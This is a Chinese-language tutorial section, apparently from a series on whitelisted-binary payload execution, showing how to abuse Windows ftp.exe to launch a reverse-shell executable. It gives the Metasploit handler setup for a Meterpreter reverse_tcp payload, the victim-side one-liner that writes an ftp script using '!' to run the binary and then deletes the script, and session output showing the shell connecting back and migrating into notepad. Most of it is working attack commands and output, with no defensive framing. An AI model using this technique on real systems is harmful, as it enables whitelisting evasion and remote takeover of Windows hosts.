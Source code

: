 ### 11.20 基于白名单Ftp.exe执行payload（十九）

    Ftp.exe简介：
    
        

Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

说明：Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

**Windows 2003 默认位置：**

    C:\Windows\System32\ftp.exe
    C:\Windows\SysWOW64\ftp.exe
    
        

**Windows 7 默认位置**：

    C:\Windows\System32\ftp.exe
    C:\Windows\SysWOW64\ftp.exe
    
        

攻击机： 192.168.1.4 Debian-
靶机： 192.168.1.3 Windows 7

**配置攻击机msf：**

注：需设置参数 set AutoRunScript migrate -f

    msf exploit(multi/handler) > show options 
    ​
    Module options (exploit/multi/handler): 
    ​
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 
    ​
    Payload options (windows/meterpreter/reverse_tcp):
    ​
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
    ​
    EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
    ​
    LHOST 192.168.1.4 yes The listen address (an interface may be specified)
    ​
    LPORT 53 yes The listen port 
    ​
    Exploit target: 
    ​
    Id Name
    ‐‐ ‐‐‐‐
    0 Wildcard Target 
    ​
    msf exploit(multi/handler) > set AutoRunScript migrate ‐f
    ​
    AutoRunScript => migrate ‐f
    ​
    msf exploit(multi/handler) > exploit
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010233938331.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
靶机执行：

    echo !C:\Users\John\Desktop\rev_x86_53_exe.exe > o &echo quit >> o &ftp ‐n ‐s:o &del /F /Q o
    
        

    msf exploit(multi/handler) > set AutoRunScript migrate ‐f
    AutoRunScript => migrate ‐f
    msf exploit(multi/handler) > exploit
    ​
    [*] Started reverse TCP handler on 192.168.1.4:53
    [*] Sending stage (179779 bytes) to 192.168.1.3
    [*] Meterpreter session 10 opened (192.168.1.4:53 ‐> 192.168.1.3:5530)
    at 2019‐01‐21 05:14:57 ‐0500
    [*] Session ID 10 (192.168.1.4:53 ‐> 192.168.1.3:5530) processing AutoRunScript 'migrate ‐f'
    [!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
    [!] Example: run post/windows/manage/migrate OPTION=value [...]
    [*] Current server process: rev_x86_53_exe.exe (8832)
    [*] Spawning notepad.exe process to migrate to
    [+] Migrating to 8788
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010234022548.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

* * *